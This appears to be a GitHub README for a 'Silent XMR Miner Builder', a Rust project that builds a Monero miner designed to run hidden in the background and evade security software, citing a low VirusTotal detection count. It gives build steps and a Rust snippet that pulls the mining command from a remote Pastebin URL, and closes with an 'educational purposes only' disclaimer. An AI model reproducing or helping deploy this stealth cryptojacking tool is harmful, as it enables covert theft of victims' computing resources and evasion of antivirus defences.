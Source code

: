 # Silent XMR Miner Builder

Welcome to the **Silent XMR Miner Builder**! This tool lets you create a stealthy miner for Monero (XMR), which runs quietly in the background and is designed to avoid detection by security software. The builder allows you to customize and build your own miner executable, which you can configure to mine using your specific Pastebin commands.


## Features:
- **Silent Operation**: The miner runs in the background with minimal system resource usage, avoiding detection.
- **3 Detection on virus tottal**: [https://www.virustotal.com/gui/file/fe23ce5ded67a1c139300b3068166dccf0bcd8c2350e3b882a4e756473651d57](https://www.virustotal.com/gui/file/fe23ce5ded67a1c139300b3068166dccf0bcd8c2350e3b882a4e756473651d57)
- **Free to Use**: The miner builder is open-source and available at no cost.
- **Custom Configuration**: Users must create their own Pastebin for the mining command configuration.

## Prerequisites:
To build and run this project, you need to have **Rust** and **Cargo** installed on your machine.

### Installing Rust:
1. **Download and Install Rust**:
   - Go to the official Rust installation page: [https://www.rust-lang.org/tools/install](https://www.rust-lang.org/tools/install).
   - Follow the instructions for your operating system. Rust can be installed via **rustup**, a tool that helps manage Rust versions and associated tools.
## Verify Installation:

After installation, check that Rust is installed properly by running this command:

```bash
rustc --version
```
You should see something like this:

```bash
rustc 1.65.0 (897e37553 2022-11-02)
```
### Clone the Repository:

First, clone this repository to your local machine using Git and navigate into the project directory.
```bash

git clone https://github.com/yourusername/silent-xmr-miner.git
cd silent-xmr-miner
```

### Create Your Pastebin:

Go to Pastebin and create a new paste with your XMRig mining command. This will include things like the pool address and your wallet address.
Once your paste is created, copy the raw URL.
For example, your URL might look like this:
`https://pastebin.com/raw/yourpastebinid`

### Update the Code:

Open the source code file and replace the URL in the specified line with your own Pastebin link.

```bash
let process_config = client.get("https://pastebin.com/raw/yourpastebinid")
    .send()
    .unwrap()
    .text()
    .unwrap_or_default();
```

### Build the Project:

In the terminal, inside the project directory, run the build command to compile the project in release mode.
```bash
cargo build --release
```

## A Few Important Things to Keep in Mind:

- **Customization**: Make sure your Pastebin contains the correct configuration for XMRig to mine with your pool address and wallet.
- **Be Responsible**: Only use this tool on systems where you have permission to run mining software.

## Disclaimer:

This tool is provided as-is, and it’s for educational purposes only. Please use it responsibly and make sure you have permission to mine on the system you’re using.
